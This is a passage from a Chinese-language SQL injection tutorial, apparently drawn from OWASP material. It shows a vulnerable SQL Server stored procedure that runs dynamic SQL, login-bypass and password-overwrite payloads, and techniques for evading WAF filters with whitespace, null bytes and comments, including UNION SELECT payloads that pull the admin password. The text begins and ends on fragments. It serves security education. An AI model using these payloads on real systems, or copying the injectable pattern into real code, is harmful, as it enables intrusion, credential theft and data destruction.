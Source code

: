 Go
```
用户输入：
```
anyusername or 1 = 1 '
anypassword
```

此过程不会清除输入，因此允许返回值显示具有这些参数的现有记录。

> 由于使用动态SQL登录用户，因此该示例似乎不太可能，但请考虑使用动态reporting query，用户在其中选择要查看的列。用户可能会在此方案中插入恶意代码并破坏数据。

请考虑以下SQL Server存储过程：
```
Create
procedure get_report @columnamelist varchar(7900)
As
Declare @sqlstring varchar(8000)
Set @sqlstring  = ‘
Select ‘ + @columnamelist + ‘ from ReportTable‘
exec(@sqlstring)
Go
```
用户输入：
```1 from users; update users set password = 'password'; select *```

这将导致报告运行并更新所有用户的密码。

#### 自动化的渗透

很多工具，例如SQLMAP

### SQL注入签名免杀技术

该技术用于绕过Web应用程序防火墙（WAF）或入侵防御系统（IPS）等防御措施。另请参阅 https://owasp.org/www-community/attacks/SQL_Injection_Bypassing_WAF

#### white space

删除空格或添加空格，不会影响SQL语句。例如
```
or ' a ' = ' a '

or ' a '   =     ' a '
```

添加不会更改SQL语句执行的特殊字符，例如换行符或制表符。例如，

```
or
'a'=
        'a'
```
#### 空字节
在过滤器阻止的任何字符之前,使用空字节（％00）。

例如，如果攻击者注入以下SQL: ```' UNION SELECT password FROM Users WHERE username='admin'--```

添加空字节将是: ```%00' UNION SELECT password FROM Users WHERE username='admin'--```

#### SQL注释
添加SQL行内注释还可以帮助SQL语句有效并绕过SQL注入过滤器。例如：

```' UNION SELECT password FROM Users WHERE name='admin'--```

添加SQL行内注释：
```